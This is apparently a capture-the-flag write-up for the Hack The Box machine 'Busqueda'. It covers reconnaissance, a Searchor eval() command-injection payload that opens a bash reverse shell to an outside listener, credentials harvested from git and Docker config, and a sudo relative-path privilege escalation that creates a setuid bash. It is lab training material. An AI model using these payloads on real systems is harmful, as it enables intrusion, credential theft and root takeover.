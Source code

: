 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.208
```

```bash
nmap -p 22,80 -sCV 10.10.11.208
```

### HTTP Service
- [Apache/2.4.52](HTTP) + Flask (Werkzeug/2.1.2 Python/3.10.6).
- Redirects to: `http://searcher.htb`

### Virtual Host
Add to `/etc/hosts`:
```text
10.10.11.208 searcher.htb
```

### Directory Fuzzing
```bash
feroxbuster -u http://searcher.htb
```

Found:
- `/search`

---

## 💥 Exploitation (RCE via Python `eval()`)

### Vulnerable App
- Uses [Searchor](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

- Eval-based CLI argument parsing vulnerable to command injection.

### Injection PoC
```bash
searchor search GitHub "' + __import__('os').popen('id').read() + '"
```

### Reverse Shell Payload (Injected via Burp)
```python
' + __import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() + '
```

### Listener
```bash
nc -lnvp 443
```

---

## 🧠 Enumeration (as `svc`)

### Home Directory
```bash
cat ~/.gitconfig  # reveals username "cody"
```

### Web App Path
```bash
cd /var/www/app
ls -la
cat .git/config
```

- Remote repo: `http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/...`

---

## 🔐 Credentials Discovered
- `cody / jh1usoih2bkjaspwe92` (from .git/config)
- `gitea / yuiu1hoiu4i5ho1uh` (from docker inspect ENV)

---

## 🧬 Gitea

Add to `/etc/hosts`:
```text
10.10.11.208 gitea.searcher.htb
```

- Login as `cody` with found creds.
- Also test `administrator / yuiu1hoiu4i5ho1uh` → ✅
- Found private repo: `scripts`
- Contains: `system-checkup.py`

---

## 🔼 Privilege Escalation

### `sudo -l`
```bash
sudo -l
```
```text
User svc may run the following commands on busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

### Script Behavior
- `full-checkup` runs `./full-checkup.sh` from CWD.

### Exploit
```bash
cd /tmp
echo -e '#!/bin/bash\ncp /bin/bash /tmp/infinit3i\nchmod 4777 /tmp/infinit3i' > full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

### Run Bash as Root
```bash
/tmp/infinit3i -p
```

---

## 🏁 Flags

```bash
cat /home/svc/user.txt
cat /root/root.txt
```